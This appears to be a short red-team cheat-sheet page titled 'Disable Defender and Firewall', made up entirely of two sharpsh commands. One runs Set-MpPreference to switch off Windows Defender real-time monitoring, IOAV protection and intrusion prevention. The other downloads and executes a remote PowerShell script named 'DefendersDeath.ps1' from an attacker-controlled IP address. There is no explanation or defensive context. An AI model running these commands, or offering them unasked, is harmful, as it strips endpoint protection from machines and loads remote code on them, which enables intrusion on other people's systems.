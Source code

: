 # Disable Defender and Firewall

### Commands

    sharpsh -t 20 -- -c \"Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true\"
    sharpsh -t 20 -- -u 'http://10.10.10.11/powershell-scripts/DefendersDeath.ps1' -c 1
